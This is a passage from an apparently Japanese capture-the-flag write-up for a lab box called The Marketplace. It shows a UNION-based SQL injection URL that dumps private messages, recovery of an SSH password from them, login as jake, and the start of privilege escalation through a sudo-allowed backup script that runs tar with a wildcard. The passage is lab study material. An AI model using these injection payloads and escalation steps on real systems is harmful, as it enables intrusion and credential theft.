 ```
users:
id,username,password,isAdministrator

items:
id,author,title,description,image

messages:
id,user_from,user_to,message_content,is_read
```

メッセージ

http://10.10.116.157/admin?user=100%20union%20select%20group_concat(user_to),group_concat(message_content),3,4 from messages

```
User Hello! An automated system has detected your SSH password is too weak and needs to be changed. You have been generated a new temporary password. Your new password is: [REDACTED]
Thank you for your report. One of our admins will evaluate whether the listing you reported breaks our guidelines and will get back to you via private message. Thanks for using The Marketplace!
Thank you for your report. We have reviewed the listing and found nothing that violates our rules.
Thank you for your report. One of our admins will evaluate whether the listing you reported breaks our guidelines and will get back to you via private message. Thanks for using The Marketplace!
Thank you for your report. We have reviewed the listing and found nothing that violates our rules.

3,4,4,2,1,4,4
```

1 番目のメッセージに変更後のパスワードが出ており、宛先は jake。

パスワードを使って SSH 接続できた。

```sh
$ ssh jake@10.10.116.157
```

## 権限昇格

michael として /opt/backups/backup.sh を実行できる。

```sh
jake@the-marketplace:~$ sudo -l
Matching Defaults entries for jake on the-marketplace:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on the-marketplace:
    (michael) NOPASSWD: /opt/backups/backup.sh
```

tar コマンドでワイルドカードを使用している。

```sh
jake@the-marketplace:~$ ls -al /opt/backups/backup.sh
-rwxr-xr-x 1 michael michael 73 Aug 23  2020 /opt/backups/backup.sh

jake@the-marketplace:~$ cat /opt/backups/backup.sh
#!/bin/bash
echo "Backing up files...";
tar cf /opt/backups/backup.tar *
```
